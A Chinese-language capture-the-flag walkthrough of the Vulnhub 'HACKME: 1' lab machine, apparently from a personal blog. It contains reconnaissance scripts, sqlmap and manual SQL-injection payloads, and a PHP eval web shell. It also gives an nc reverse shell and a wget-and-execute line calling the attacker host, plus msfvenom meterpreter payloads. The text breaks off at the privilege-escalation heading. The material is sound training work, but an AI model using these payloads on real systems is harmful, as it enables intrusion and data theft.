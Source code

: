 # (Vulnhub练习)-- HACKME: 1渗透实战





## 下载地址

````
https://www.vulnhub.com/entry/hackme-1,330/
````

## 扫描主机

```
netdiscover -i eth0 -r 192.168.100.0/24
```

## 目标主机IP：192.168.100.134

## 信息收集

>  信息收集的步骤基本上差不多,可根据工具简单写个shell脚本

```sh
#!/usr/bin/bash

ip=192.168.100.$1

ping -c2 $ip &>/dev/null  
if [ $? -eq 0 ] ; then 
		echo "$ip is up"
	else 
			echo "$ip is down"
			    exit
fi

masscan --rate=10000 --ports 0-65535 $ip 
masscan --rate=10000 --ports 0-65535 $ip 
nmap -A $ip
sleep 30
whatweb $ip 
sleep 10
dirsearch  -u  $ip 
sleep 5
nikto -h $ip 
sleep 5
dirb http://$ip 
```

> 我的网段在192.168.100.0/24  所以**ip**要改改

```
 /home/xiaoxiaoran/shell/xinxi.sh 134
```

### nmap端口扫描

![image-20211206183809989](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202112061838113.png)

### 指纹识别

![image-20211206183858248](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202112061838297.png)

### 路径扫描

![image-20211206183827214](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202112061838262.png)

## 开始测试

### SQL注入

登录主页发现登录页面，而且还可以注册用户

注册用户admin 密码123456 登录admin用户

### sqlmap自动化执行

```
sqlmap -u http://192.168.100.134/welcome.php --cookie "PHPSESSID=u5eefssue2adhtmid1rnnpj3ui" --forms --batch
sqlmap -u http://192.168.100.134/welcome.php --cookie "PHPSESSID=u5eefssue2adhtmid1rnnpj3ui" --forms --batch --current-db
sqlmap -u http://192.168.100.134/welcome.php --cookie "PHPSESSID=u5eefssue2adhtmid1rnnpj3ui" --forms --batch --current-db -D webapphacking --tables
sqlmap -u http://192.168.100.134/welcome.php --cookie "PHPSESSID=u5eefssue2adhtmid1rnnpj3ui" --forms --batch --current-db -D webapphacking -T users --columns
sqlmap -u http://192.168.100.134/welcome.php --cookie "PHPSESSID=u5eefssue2adhtmid1rnnpj3ui" --forms --current-db -D webapphacking -T users -C user,name,pasword --dump
         
```

![image-20211206185414541](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202112061854600.png)



## 手工注入

```
//验证sql注入
Windows OS' and 1=1#

//验证sql注入
Windows OS' and 1=2# 

//判断字段数
Windows OS' order by 3#

//判断字段数
Windows OS' order by 4#

//判断显示位置
-1' union select 1,2,3#

//查看当前数据库
-1' union select database(),2,3#

//查看webapphacking库所有的表
-1' union select group_concat(table_name),2,3 from information_schema.tables where table_schema='webapphacking'#

//查看users表中所有的列
-1' union select group_concat(column_name),2,3 from information_schema.columns where table_name='users'#

//查看表中user,password
-1' union select group_concat(user),group_concat(pasword),3 from users#

```

![image-20211206185948574](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202112061859628.png)



## superadmin用户登录



superadmin		Uncrackable

### 文件上传漏洞

> 没有任何限制



```
<?php @eval($_POST[1]);
```



























nc反弹shell

### 代码

````php+HTML
<p>flag</p>
<?php system("nc -e /bin/bash 192.168.100.143 1234");?>
````

```
nc -nvlp 1234
```

### 效果



## msf php反弹shell

- msfvenom生成木马

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.100.143 LPORT=8080
```

**php.rc文件**

```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.100.143
set LPORT 8080
exploit
```

- 开启监听

```sh
 msfconsole  -qr /home/xiaoxiaoran/shell/php.rc       
```

- 把生成的文件复制




## msf linux反弹shell

- msfvenom生成木马

```
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.100.143 LPORT=4444 -b "\x00" -i 10 -f elf -o  /var/www/html/xiao3
```

**linux.rc文件**

```sh
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.100.143
set LPORT 4444
exploit
```

- 开启监听

```sh
msfconsole  -qr /home/xiaoxiaoran/shell/linux.rc  
```

- 改php代码



```
<p>flag</p>
<?php system("wget 192.168.100.143/xiao3 -O /tmp/xiao3;cd /tmp;chmod +x xiao3;./xiao3 &")?>
```

- 效果



##  提权